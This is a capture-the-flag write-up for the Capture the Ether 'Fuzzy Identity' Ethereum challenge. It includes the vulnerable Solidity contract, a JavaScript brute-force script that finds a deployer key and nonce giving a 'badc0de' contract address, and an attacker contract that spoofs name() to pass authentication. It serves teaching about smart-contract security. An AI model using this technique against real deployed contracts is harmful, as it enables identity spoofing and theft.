 # Fuzzy Identity

## Challenge
Source: https://capturetheether.com/challenges/accounts/fuzzy-identity/
>This contract can only be used by me (smarx). I don’t trust myself to remember my private key, so I’ve made it so whatever address I’m using in the future will work:
>
>I always use a wallet contract that returns “smarx” if you ask its name.
>Everything I write has bad code in it, so my address always includes the hex string badc0de.
>To complete this challenge, steal my identity!

```
pragma solidity ^0.4.21;

interface IName {
    function name() external view returns (bytes32);
}

contract FuzzyIdentityChallenge {
    bool public isComplete;

    function authenticate() public {
        require(isSmarx(msg.sender));
        require(isBadCode(msg.sender));

        isComplete = true;
    }

    function isSmarx(address addr) internal view returns (bool) {
        return IName(addr).name() == bytes32("smarx");
    }

    function isBadCode(address _addr) internal pure returns (bool) {
        bytes20 addr = bytes20(_addr);
        bytes20 id = hex"000000000000000000000000000000000badc0de";
        bytes20 mask = hex"000000000000000000000000000000000fffffff";

        for (uint256 i = 0; i < 34; i++) {
            if (addr & mask == id) {
                return true;
            }
            mask <<= 4;
            id <<= 4;
        }

        return false;
    }
}
```

## Solution

This javascript will do a brute force search for an address with ```badc0de``` in it:
```
const rlp = require('rlp');
const keccak = require('keccak');
const generate = require('ethjs-account').generate;

//console.log(generate('892alsdjfn3$*hnj][][;=-4t98.34091`.039jfhHF//').address);

let nonce = 0;
let seed = '892alsdjQWmvniepw%^&@#jfLKJBn3}|[083jm22kme]$*he,x.,nj][][;=-4tCJXOPWME98.3MNB4091`.039jfhHF//';
let counter = 0;
let sender;

for (i = 0; i < 10000; i++) {
    seed = seed + Math.random().toString(36).substring(12);
    for (seeds = 0; seeds < 1000; seeds++) {
        sender = generate(seed);
        for (nonces = 0; nonces < 10; nonces++) {

            nonce = nonces;
            nonce = nonce.toString(16);
            nonce = '0x'.concat(nonce);
            let rlp_encoded = rlp.encode([sender.address,nonce]);

            let contract_address = '0x'.concat(keccak('keccak256')
                                               .update(rlp_encoded)
                                               .digest('hex')
                                               .substring(24));
            if (contract_address.match("badc0de")) {
              console.log("Attempt: " + counter);
              console.log("Generated address: " + sender.address);
              console.log("Generated privateKey: " + sender.privateKey);
              console.log("Generated publicKey: " + sender.publicKey);
              console.log("Nonce: " + nonce);
              console.log("contract address: " + contract_address);
              return true;
            }
            counter++;
            // console.log(counter);
        }
    }
    console.log(counter);
}
```

Successful output from the code above will have the following format:
* Attempt: 
```
000000
```
* Generated address: 
```
0x0000000000000000000000000000000000000000
```
* Generated privateKey: 
```
0x0000000000000000000000000000000000000000000000000000000000000000
```
* Generated publicKey:
```
0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```
* Nonce: 
```
0x0
```
* the desired ```badc0de``` contract address: 
```
0x0000000000000000000000000000000000000000
```

The ```badc0de``` contract address above is the result of the above ```nonce``` and ```generated address```. Deploy the Solidity contract ```IName``` below from the ```generated address``` determined from the javascript above on the ```nonce``` determined from the same result above:

```
pragma solidity ^0.4.24;

interface FuzzyIdentityChallenge {
    function authenticate() public;
}

contract IName {

    FuzzyIdentityChallenge public fuzzy;

    constructor(address target) public {
        fuzzy = FuzzyIdentityChallenge(target);
    }


    function name() external view returns (bytes32) {
        return bytes32("smarx");
    }

    function attack() public {
        fuzzy.authenticate();
    }
}
```

Calling the ```attack()``` function of the above ```IName``` contract will satisfy both ```require()``` statements in the ```FuzzyIdentityChallenge``` ```authenticate``` function.
